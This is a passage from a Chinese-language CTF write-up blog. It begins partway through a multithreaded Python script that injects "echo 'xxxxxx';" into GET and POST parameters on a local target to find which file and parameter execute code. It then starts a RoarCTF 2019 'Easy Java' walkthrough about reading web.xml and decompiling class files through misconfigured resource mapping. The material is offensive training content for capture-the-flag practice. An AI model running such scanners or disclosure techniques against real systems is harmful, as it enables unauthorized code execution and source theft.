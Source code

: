 ```python
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file
    req = session.post(url, data=data, params=params)        #一次性请求所有的GET和POST
    req.close()                                     # 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:                            #如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()                                     # 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()                                     # 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:                                      #flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:                                              #加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```

---
# *[RoarCTF 2019]Easy Java

![](https://img-blog.csdnimg.cn/20210426111025268.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)点help发现：`java.io.FileNotFoundException:{help.docx}`

报错信息：

![](https://img-blog.csdnimg.cn/20210426111054132.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
搜到（CVE-2018-1305）没用

Wp：

>通常一些web应用我们会使用多个web服务器搭配使用，解决其中的一个web服务器的性能缺陷以及做均衡负载的优点和完成一些分层结构的安全策略等。在使用这种架构的时候，由于对静态资源的目录或文件的映射配置不当，可能会引发一些的安全问题，导致 `web.xml 等文件能够被读取`。漏洞检测以及利用方法：`通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码`
